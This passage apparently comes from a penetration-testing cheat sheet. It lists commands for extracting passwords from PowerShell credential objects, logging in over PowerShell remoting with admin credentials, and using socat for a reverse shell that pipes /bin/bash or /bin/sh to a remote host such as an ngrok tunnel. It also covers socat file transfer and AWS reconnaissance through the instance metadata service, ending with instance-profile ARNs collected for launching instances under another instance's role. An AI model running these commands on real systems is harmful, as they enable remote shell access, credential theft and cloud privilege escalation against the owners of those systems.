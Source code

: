 ```powershell
$s.GetNetworkCredential().Password # Extracting Password XML field
```
### Create Secure String: PowerShell for PowerShell Remoting
```powershell
$Pass = ConvertTo-SecureString -AsPlainText -Force 'this is my secure p@ssword!@#'
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\admin', $Pass)
Enter-PSSession -ComputerName 10.10.10.10 -Credential $Cred
```
### Socat
```
# Listen
socat tcp-listen:<listen-port> stdout
# example: socat tcp-listen:9999,fork,reuseaddr stdout

# Connect
socat TCP:<remote-ip>:<remote-port> EXEC:/bin/bash
# example: socat tcp4-connect:0.tcp.ngrok.io:92349 exec:/bin/sh,pty,stderr,setsid,sigint,sane

# Port Forward
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<forward-ip>:<forward-port>

# Host File
socat -u FILE:<file_name> TCP-LISTEN:<listen-port>,reuseaddr

# Get File
socat -u TCP:<listen-ip>:<listen-port> OPEN:<file-to-create>,create,trunc
```
### AWS Pentesting
```console
IMDSv1
------
curl http://169.254.169.254/latest/user-data

IMDSv2
------
# Generate token and set expiration to 6 hours
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/

# get instance types
aws ec2 describe-instance-types | jq -r '.InstanceTypes | .[].InstanceType'

# get ami images
aws ec2 describe-images --owners self amazon | jq '.Images | .[] | select(.Description != null) | "\(.ImageId) \(.Description)"'

# get ec2 instances public ip addresses
aws ec2 describe-instances --profile [profile] | jq '.Reservations[] | .Instances[].PublicIpAddress'

# get ec2 instances security groups
aws ec2 describe-instances --profile [profile] | jq '.Reservations[].Instances[] | "\(.InstanceId) \(.PublicIpAddress) \(.NetworkInterfaces[].Groups[].GroupId)"'

# get ec2 instance ids and iam instance profiles arn's
aws ec2 describe-instances --profile [profile] --query 'Reservations[].Instances[]' | jq '.[] | "\(.InstanceId) :: \(.IamInstanceProfile.Arn)"' | grep -v null

# launching a new ec2 instance with the instance profile of another ec2 instance
ARN="[ARN-OF-TARGET-EC2-INSTANCE-PROFILE]"
```